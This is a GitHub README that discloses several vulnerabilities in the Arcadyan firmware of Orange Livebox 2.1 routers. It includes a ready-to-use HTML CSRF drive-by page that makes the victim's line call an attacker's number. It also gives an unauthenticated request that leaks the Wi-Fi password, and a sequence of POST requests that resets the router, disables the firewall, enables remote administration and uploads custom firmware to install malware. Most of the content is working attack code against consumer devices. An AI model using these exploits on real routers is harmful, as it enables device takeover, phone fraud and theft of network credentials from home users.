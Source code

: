 # LIVEBOX-0DAY
Arcadyan ARV7519RW22-A-L T VR9 1.2 Multiple security vulnerabilities affecting Latest frmware release on ORANGE Livebox 2.1 routers

```
Versión de Firmware:  00.96.320S (01.11.2017-11:43:44)
Versión del Boot:  v0.70.03
Versión del Módem ADSL: 5.4.1.10.1.1A
Versión de Hardware:  02
```


**CWE-359**: *Exposure of Private Information ('Privacy Violation').*

A very serious attack vector allows an attacker to link CSRF drive-by vulnerabilities to exploit Autodialing and Line Test features, succesfully making calls from a victim's line, exposing a client's 	phone number and making him susceptible to scams and impersonation. Nuisance calls alone are also a serious concern.


``` html
<!DOCTYPE html>

<!-- Phone number disclosure, reflected call exploit -->

<html>

<iframe style="display:none" id="csrf-frame-invisible" name="csrf-frame-invisible"></iframe>
<form style="display:none" method='POST' action='http://192.168.1.1/cgi-bin/autodialing.exe' target="csrf-frame-invisible" name="csrf-form-invisible" id="csrf-form-invisible">
  <input type='hidden' name='autodialing_enable' value='1'>
  <input type='hidden' name='autodialing_number' value='5550150'> <!-- attacker's phone number goes here -->
  <input type='hidden' name='autodialing_timeout' value='0'>
  <input type='submit' value='Submit'>
</form>

<script>document.getElementById("csrf-form-invisible").submit()</script>

<img src="http://192.168.1.1/cgi-bin/phone_test.exe" width="0" height="0" border="0">

</html>
```

When the victim visits the malicious site, it will create an autodialing profile on the victim's modem, and activate the Line Test feature. No interaction needed. The phone will ring, and when the call 		is answered the autodialing feature will call the attacker's number. 




**CWE-200**: *Information Exposure: Unauthenticated configuration information leak.*

	The webserver leaks access point security protocol, SSID, and password in plain text.
	GET http://192.168.1.1/get_getnetworkconf.cgi

	<html>
	<body>
	Orange-SSID<BR>
	PASSWORD<BR>
	255.255.255.0<BR>
	192.168.1.1<BR>
	0<BR>
	WPA<BR>
	<BR>
	</body>
	</html>



**CWE-352**: *Cross-Site Request Forgery (CSRF): The web application does not, sufficiently verify whether a well-formed, valid, consistent request was intentionally provided by the user who submitted the request. Allows an attacker to manipulate all configuration parameters.*

Integrity Impact 	Complete (There is a total compromise of system integrity. There is a complete loss of system protection, resulting in the entire system being compromised.)  
Availability Impact 	Complete (There is a total shutdown of the affected resource. The attacker can render the resource completely unavailable.)  
Access Complexity 	Low (Specialized access conditions or extenuating circumstances do not exist. Very little knowledge or skill is required to exploit. )  
Authentication 		None. (The vulnerability does not require an attacker or user to be logged into the system).   
User interaction        None.  


	- Login with default admin:admin credentials after restoring configuration to factory settings. (This can be omited if the victim has an active session.)
	- Change default credentials.
	- Enable remote access.
	- Upload custom firmware to install remote access malware or brick the system.

	
	POST http://192.168.1.1/cgi-bin/restore.exe {empty body} Restores configuration to factory defaults.
	POST http://192.168.1.1/cgi-bin/firewall_SPI.exe {empty body} Disables all firewall protections.
	POST http://192.168.1.1/cgi-bin/setup_remote_mgmt.exe {IP1=FIRST_OCTET &IP2=SECOND_OCTET &IP3=THIRD_OCTET &IP4=FOURTH_OCTET &r_mgnt_port=_PORT } Allows remote administration. 
	POST http://192.168.1.1/cgi-bin/setup_pass.exe	{submit_action=0&userNew=admin&userOldPswd=admin&userNewPswd=NEWPASS&userConPswd=NEWPASS&timeout=0} Changes default password.
	POST http://192.168.1.1/cgi-bin/upgradep.exe Custom firmware update.




**CWE-912**: *Hidden Functionality. The software contains functionality that is not documented, not part of the specification, and not accessible through an interface or command sequence that is obvious to the software's users or administrators.*

` Manual firmware update. Allows malware to be installed as described before. ` 
	
	GET http://192.168.1.1/system_firmwarel.stm


---

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details

**mapez** - [telegram](https://t.me/mapezz)
